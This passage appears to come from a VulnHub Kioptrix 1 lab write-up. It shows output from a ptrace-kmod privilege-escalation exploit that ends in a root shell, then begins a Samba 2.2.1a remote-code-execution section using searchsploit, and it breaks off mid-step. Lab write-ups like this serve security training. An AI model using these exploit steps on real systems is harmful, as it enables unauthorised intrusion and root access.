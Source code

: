 			0K ...                                                   100% @   3.74 MB/s

		04:45:09 (3.74 MB/s) - `ptrace-kmod.c' saved [3921/3921]

		[+] Attached to 19340
		[+] Waiting for signal
		[+] Signal caught
		[+] Shellcode placed at 0x4001189d
		[+] Now wait for suid shell...
		whoami
		root

		```
		![](images/Pasted%20image%2020220123164436.png)




## TCP/139,445 - SMB - Samba 2.2.1a Exploit
1. Search for `Samba 2.2.1a` exploits
	```
	┌──(root💀kali)-[~/vulnHub/kioptrix1/192.168.1.104/exploit]
	└─# searchsploit samba 2.2
	----------------------------------------------------------------------------------- 
	Exploit Title                    			   	  |  Path								
	----------------------------------------------------------------------------------- 
	Samba < 2.2.8 (Linux/BSD) - Remote Code Execution | multiple/remote/10.c
	-----------------------------------------------------------------------------------
	```
2. Compile Exploit & Run
	```
	┌──(root💀kali)-[~/vulnHub/kioptrix1/192.168.1.104/exploit/samba]
	└─# searchsploit -m multiple/remote/10.c